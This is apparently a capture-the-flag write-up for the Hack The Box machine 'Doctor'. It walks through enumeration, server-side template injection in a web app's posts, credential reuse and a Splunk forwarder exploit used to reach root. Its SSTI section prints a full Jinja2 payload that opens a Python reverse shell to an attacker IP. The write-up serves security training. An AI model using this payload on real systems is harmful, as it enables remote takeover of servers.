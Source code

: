 # Doctor

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (75) (5).png" alt=""><figcaption></figcaption></figure>

### Doctors.htb

The website revealed a basic corporate page:

<figure><img src="../../../.gitbook/assets/image (25) (1) (3).png" alt=""><figcaption></figcaption></figure>

There was nothing interesting, until I added `doctors.htb` to the `/etc/hosts` file (as per standard HTB practice) and visited that site.

<figure><img src="../../../.gitbook/assets/image (40) (2) (2).png" alt=""><figcaption></figcaption></figure>

Here, we can create an account and test this service. When logged in, we can see a few functions.

<figure><img src="../../../.gitbook/assets/image (123).png" alt=""><figcaption></figcaption></figure>

When examining the page source, we can find an `/archive` endpoint.&#x20;

```markup
 <div class="navbar-nav mr-auto">
              <a class="nav-item nav-link" href="/home">Home</a>
              <!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->
            </div>
            <!-- Navbar Right Side -->
            <div class="navbar-nav">
```

When visiting it, it returns nothing but the **posts that we have made**.&#x20;

### SSTI in Posts

Initially, I tested other vulnerabilities like SSTI on the username and the message posting functions but it didn't return any positives.

<figure><img src="../../../.gitbook/assets/image (21) (1) (5).png" alt=""><figcaption></figcaption></figure>

When I visited the `/archive` endpoint, we would actually see that it works!

<figure><img src="../../../.gitbook/assets/image (2) (6) (3).png" alt=""><figcaption></figcaption></figure>

For SSTI, we can follow this table on HackTricks to determine which framework is being used.

<figure><img src="../../../.gitbook/assets/image (12) (7).png" alt=""><figcaption></figcaption></figure>

For this specific box, we can determine that it's Jinja2 or Twig. On PayloadAllTheThings, there's a payload that works in spawning a reverse shell.

{% code overflow="wrap" %}
```
{% raw %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"10.10.14.6\",443)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
{% endraw %}
```
{% endcode %}

When we submit this as a message, it would spawn a reverse shell.

<figure><img src="../../../.gitbook/assets/image (18) (5).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Shaun Credentials

I ran LinPEAS to enumerate all files for me, it found a credential for me.

<figure><img src="../../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

When checking for other users, there was only the user `shaun`.

<figure><img src="../../../.gitbook/assets/image (23) (1) (2).png" alt=""><figcaption></figcaption></figure>

We can try using `su` with this credential, and it works.

<figure><img src="../../../.gitbook/assets/image (124) (2).png" alt=""><figcaption></figcaption></figure>

### Splunk RCE

I checked the `/opt` directory, and found that there were some `splunkforwarder` related files within it.

<figure><img src="../../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

Normally, Splunk runs on port 8089, and we did find that port open on the machine earlier. Furthermore, this version of Splunk is vulnerable to an RCE exploit called SplunkWhisperer.

{% embed url="https://github.com/cnotin/SplunkWhisperer2" %}

We can easily run the exploit to give us a reverse shell as root.&#x20;

<figure><img src="../../../.gitbook/assets/image (37) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (42) (6).png" alt=""><figcaption></figcaption></figure>
